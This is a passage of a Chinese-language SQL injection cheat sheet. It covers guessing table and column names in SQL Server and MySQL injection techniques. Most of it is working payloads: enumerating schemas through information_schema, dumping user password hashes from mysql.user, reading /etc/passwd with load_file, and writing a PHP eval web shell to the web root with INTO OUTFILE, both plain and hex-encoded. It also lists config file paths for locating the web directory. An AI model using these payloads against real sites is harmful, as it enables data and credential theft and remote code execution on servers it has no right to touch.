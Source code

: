     *   猜表名: `and (select top 1 name from sysobjects where xtype='U' and name not in ('已知表1','已知表2')) > 0 --` (逐个猜)
    *   猜列名 (结合 `having` 和 `group by` 报错): `and 1=1 group by table.col1 having 1=1 --` (如果成功，说明col1存在)

### MySQL数据库注入

*   **特点:** `information_schema` 库是信息获取的核心。权限管理相对简单（用户@主机）。`load_file()`, `into outfile` 可用于读写文件。
*   **信息获取:**
    *   版本: `version()`, `@@version`
    *   用户: `user()`, `current_user()`
    *   库名: `database()`
    *   操作系统: `@@version_compile_os`
    *   所有库名: `select group_concat(schema_name) from information_schema.schemata`
    *   指定库所有表名: `select group_concat(table_name) from information_schema.tables where table_schema='数据库名'` (或 `database()`)
    *   指定库、表所有列名: `select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'`
    *   获取数据: `select concat(col1, 0x3a, col2) from 库名.表名 limit 0,1` (0x3a是冒号:)
    *   统计行数: `select count(*) from 库名.表名`
*   **获取用户密码 (需要相应权限):**
    *   MySQL < 5.7: `select concat_ws(':', user, password) from mysql.user limit 0,1`
    *   MySQL >= 5.7: `select concat_ws(':', user, authentication_string) from mysql.user limit 0,1`
*   **文件读写 (需要FILE权限和配置允许):**
    *   **读取文件:**
        ```sql
        ' union select 1, load_file('/etc/passwd') # -- Linux
        ' union select 1, load_file('C:/Windows/win.ini') # -- Windows
        ```
        *   `secure_file_priv` 配置:
            *   `NULL`: 禁止读写。
            *   `""`: 允许在任意位置读写（不安全）。
            *   `/path/to/dir/`: 只允许在指定目录下读写。
    *   **写入WebShell:**
        ```sql
        ' union select 1, '<?php @eval($_POST["cmd"]);?>' into outfile '/var/www/html/shell.php' #
        ' union select 1, 0x3C3F70687020406576616C28245F504F53545B22636D64225D293B3F3E into outfile 'C:/xampp/htdocs/shell.php' # (使用Hex编码)
        ```
        *   需要知道Web目录的绝对路径。
        *   目标目录需要MySQL运行用户有写入权限。
        *   `secure_file_priv` 配置允许写入该目录。
*   **查找Web路径方法:**
    *   利用报错信息（如脚本出错页面，可能包含路径）。
    *   搜索引擎搜索报错信息: `error site:target.com`, `warning site:target.com`。
    *   读取配置文件 (需 `load_file` 权限):
        *   **Windows:** `C:/Windows/php.ini`, `C:/Windows/my.ini`, `C:/xampp/apache/conf/httpd.conf`, `C:/Windows/System32/inetsrv/MetaBase.xml`
        *   **Linux:** `/etc/php.ini`, `/etc/my.cnf`, `/etc/httpd/conf/httpd.conf`, `/etc/nginx/nginx.conf`, `/usr/local/apache2/conf/httpd.conf`, `/var/log/nginx/error.log` (日志可能泄露)
    *   利用 CMS 或框架的探针、后台功能查看。

## 常用函数 (MySQL)
